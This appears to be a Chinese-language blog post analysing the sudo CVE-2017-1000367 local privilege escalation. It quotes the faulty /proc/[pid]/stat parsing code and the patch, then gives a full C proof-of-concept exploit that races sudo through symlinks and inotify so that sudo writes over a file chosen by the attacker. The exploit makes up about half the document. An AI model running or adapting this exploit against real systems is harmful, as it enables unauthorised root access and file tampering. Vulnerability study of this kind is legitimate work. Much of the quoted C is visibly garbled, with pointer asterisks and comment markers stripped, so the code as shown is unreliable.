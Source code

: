 ```yaml
---
layout: post
title: sudo本地提权 CVE-2017-1000367 漏洞分析
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;该漏洞发生在/src/ttyname.c的`get_process_ttyname()`函数，sudo在获取tty设备号时没有正确解析/proc/[pid]/stat的内容。首先，/proc/[pid]的stat包含了所有的CPU活跃信息，有关触发此漏洞的两个stat参数分别为：
```
第2个：comm应用程序或命令的名字
第7个：tty_nr也就是tty设备号
```

这些参数是使用空格进行分割的，再来看看get_process_ttyname()函数是怎么获取`tty_nr`的：

```
len = getline(&line, &linesize, fp);
fclose(fp);
if (len != -1) {
    / Field 7 is the tty dev (0 if no tty) /
    char cp = line;
    char ep = line;
    const char errstr;
    int field = 0;
    while (++ep != '\0') {
        if (ep == ' ') {
            ep = '\0';
            if (++field == 7) {
                dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
                if (errstr) {
                    sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                        "%s: tty device %s: %s", path, cp, errstr);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;程序在获取tty_nr时也就是根据多少空格个来判断当前是哪个参数，那么上面提到的第2个参数comm，这个参数是以括号独立起来的，并且程序或命令的名字当然允许包含空格。那么就可以通过控制comm参数的空格导致tty_nr的值同样被控制，使得本地攻击者来覆盖文件系统上的任何文件，从而绕过预期权限或获取root shell。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;再来看看补丁，补丁第一处是将get_process_ttyname()函数在获取tty_nr时从’)’后开始获取，这样避免了comm包含空格的特性：

```
if (nread == 0 && memchr(buf, '\0', cp - buf) == NULL) {
    /
      Field 7 is the tty dev (0 if no tty).
      Since the process name at field 2 "(comm)" may include
      whitespace (including newlines), start at the last ')' found.
     /
    cp = '\0';
    cp = strrchr(buf, ')');
    if (cp != NULL) {
    char ep = cp;
    const char errstr;
    int field = 1;

    while (++ep != '\0') {
        if (ep == ' ') {
        ep = '\0';
        if (++field == 7) {
            dev_t tdev = strtonum(cp, INT_MIN, INT_MAX, &errstr);
            if (errstr) {
            sudo_debug_printf(SUDO_DEBUG_ERROR|SUDO_DEBUG_LINENO,
                "%s: tty device %s: %s", path, cp, errstr);
            }
            if (tdev > 0) {
            errno = serrno;
            ret = sudo_ttyname_dev(tdev, name, namelen);
            goto done;
            }
            break;
        }
        cp = ep + 1;
        }
    }
    }
}
```

第二处是添加了搜索设备号对应的设备名的两个地址：

```
 static char ignore_devs[] = {
     "/dev/fd/",
+    "/dev/mqueue/",
+    "/dev/shm/",
     "/dev/stdin",
     "/dev/stdout",
     "/dev/stderr",
```

POC:

```
#define _GNU_SOURCE
#include <errno.h>
#include <linux/sched.h>
#include <pty.h>
#include <sched.h>
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/inotify.h>
#include <sys/resource.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/wait.h>

#define EVENT_SIZE  ( sizeof (struct inotify_event) )
#define EVENT_BUF_LEN     ( 1024  ( EVENT_SIZE + 16 ) )


int main( )
{

    int length, i = 0;
  int fd;
  int wd;
  char buffer[EVENT_BUF_LEN];

    int master, slave;
    char pts_path[256];

    cpu_set_t  mask;
    struct sched_param params;
    params.sched_priority = 0;
    CPU_ZERO(&mask);
    CPU_SET(0, &mask);

    mkdir("/dev/shm/_tmp", 0755);
    symlink("/dev/pts/57", "/dev/shm/_tmp/_tty");
    symlink("/usr/bin/sudo", "/dev/shm/_tmp/     34873 ");

    fd = inotify_init();
    wd = inotify_add_watch( fd, "/dev/shm/_tmp", IN_OPEN | IN_CLOSE_NOWRITE );

     pid_t pid = fork();

    if(pid == 0) {
        sched_setaffinity(pid, sizeof(mask), &mask);
        sched_setscheduler(pid, SCHED_IDLE, &params);
        setpriority(PRIO_PROCESS, pid, 19);

        sleep(1);
        execlp("/dev/shm/_tmp/     34873 ", "sudo", "-r", "unconfined_r", "/usr/bin/sum", "—\nHELLO\nWORLD\n", NULL);
    }else{
        setpriority(PRIO_PROCESS, 0, -20);
        int state = 0;
        while(1) {
            length = read( fd, buffer, EVENT_BUF_LEN );
            kill(pid, SIGSTOP);

            i=0;
            while ( i < length ) {
                struct inotify_event event = ( struct inotify_event * ) &buffer[ i ];

                if ( event->mask & IN_OPEN ) {
                    //kill(pid, SIGSTOP);

                    while(strcmp(pts_path,"/dev/pts/57")){
                        openpty(&master, &slave, &pts_path[0], NULL, NULL);
                    };
                    //kill(pid, SIGCONT);
                    break;

                }else if ( event->mask & IN_CLOSE_NOWRITE ) {
                    //kill(pid, SIGSTOP);

                    unlink("/dev/shm/_tmp/_tty");
                    symlink("/etc/motd", "/dev/shm/_tmp/_tty");
                    //kill(pid, SIGCONT);

                    state = 1;
                    break;
                }

                i += EVENT_SIZE + event->len;

            }
            kill(pid, SIGCONT);
            if(state == 1) break;
        }

        waitpid(pid, NULL, 0);
        inotify_rm_watch( fd, wd );
        close( fd );
        close(wd);

        unlink("/dev/shm/_tmp/_tty");
        unlink("/dev/shm/_tmp/     34873 ");
        rmdir("/dev/shm/_tmp");
        close(master);
        close(slave);
    }

}
```

<img src="http://7xiw31.com1.z0.glb.clouddn.com/4refdergth.png">

